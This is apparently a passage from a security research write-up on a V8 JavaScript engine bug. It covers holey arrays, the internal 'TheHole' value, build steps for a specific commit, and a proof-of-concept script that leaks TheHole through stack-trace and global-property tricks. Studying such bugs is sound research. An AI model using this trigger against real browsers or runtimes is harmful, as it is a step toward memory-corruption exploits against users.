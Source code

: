 ```shell
 - transitions #1: 0x38ae000cef99 <TransitionArray[4]>Transition array #1:
     0x38ae00000e05 <Symbol: (elements_transition_symbol)>: (transition to PACKED_DOUBLE_ELEMENTS) -> 0x38ae000cefb1 <Map[16](PACKED_DOUBLE_ELEMENTS)>

 - prototype: 0x38ae000ce925 <JSArray[0]>
 - constructor: 0x38ae000ce61d <JSFunction Array (sfi = 0x38ae00335da5)>
 - dependent code: 0x38ae000006dd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

[1, 2, 3, , ]
```
You can see that the elements kind for this array is `HOLEY_SMI_ELEMENTS`. SMI is used to represent small integers. and you can see that the elements after `arr[2]` are holes.

V8 uses a special object to represent these holes called `TheHole`. It is an internal implementation which never leaks(or should never) in the JavaScript code. since this is a special object it is handled differently in various places in v8. this special handling is what lead to a lot vulnerabilities in the past. 


### Setup

```shell
spektre@skream:~$ fetch v8
spektre@skream:~$ cd v8
spektre@skream:~/v8$ ./build/install-build-deps.sh # Assumes you're using apt
spektre@skream:~/v8$ git checkout f7a3499f6d7e50b227a17d2bbd96e4b59a261d3c
spektre@skream:~/v8$ ./tools/dev/v8gen.py x64.release
spektre@skream:~/v8$ ninja -C ./out.gn/x64.release # Release version
spektre@skream:~/v8$ ./tools/dev/v8gen.py x64.debug
spektre@skream:~/v8$ ninja -C ./out.gn/x64.debug # Debug version 
```

### Bug Analysis

#### POC
```js
var h0le = [Object];
function boom() {
  var h00le = h0le;
  function rGlobal() {
    h00le[0] = stack;
    return h00le;
  }
  Error.captureStackTrace(globalThis);
  Error.prepareStackTrace = function() {
    Reflect.deleteProperty(Error, 'prepareStackTrace');
    Reflect.deleteProperty(globalThis, 'stack');
    Reflect.defineProperty(
        globalThis, 'stack',
        {configurable: false, writable: true, enumerable: true, value: 1});
    stack = undefined;
    for (let i = 0; i < 0x5000; i++) {
      rGlobal();
    }
    return undefined;
  };
  Reflect.defineProperty(
      globalThis, 'stack',
      {configurable: true, writable: true, enumerable: true, value: undefined});
  delete globalThis.stack;
  rGlobal();
  %DebugPrint(h0le[0]);
}
```